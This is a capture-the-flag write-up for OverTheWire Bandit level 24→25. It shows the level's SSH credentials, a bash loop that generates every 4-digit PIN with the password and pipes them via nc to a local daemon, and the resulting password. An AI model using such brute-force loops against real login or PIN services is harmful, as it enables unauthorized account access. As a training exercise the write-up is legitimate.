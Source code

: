 # Bandit Level 24 → Level 25

## 🧠 Goal

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
---

## 🔐 Credentials

- **Username:** `bandit24`
- **Host:** `bandit.labs.overthewire.org`
- **Port:** `2220`
- **Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

---

## 🖥️ Commands Used

```bash
bandit24@bandit:~$ mktemp -d /tmp/amro.XXX
/tmp/amro.UlA
bandit24@bandit:~$ cd /tmp/amro.ULA
-bash: cd: /tmp/amro.ULA: No such file or directory
bandit24@bandit:~$ /tmp/amro.UlA
-bash: /tmp/amro.UlA: Is a directory
bandit24@bandit:~$ cd /tmp/amro.UlA
bandit24@bandit:/tmp/amro.UlA$ nano brute_force.sh
```
#!/bin/bash
for i in {0000..9999}
do
        echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i >> try_me.txt
done
cat try_me.txt | nc localhost 30002 >> result.txt
```bash
bandit24@bandit:/tmp/amro.UlA$ ls
brute_force.sh
bandit24@bandit:/tmp/amro.UlA$ chmod +x brute_force.sh
bandit24@bandit:/tmp/amro.UlA$ ls
brute_force.sh
bandit24@bandit:/tmp/amro.UlA$ ./brute_force.sh
bandit24@bandit:/tmp/amro.UlA$ ls
brute_force.sh  result.txt  try_me.txt
bandit24@bandit:/tmp/amro.UlA$ grep -v "Wrong" result.txt
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
___

## 💡 Tips
```bash


```
___

## 📤 Output
```bash
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```


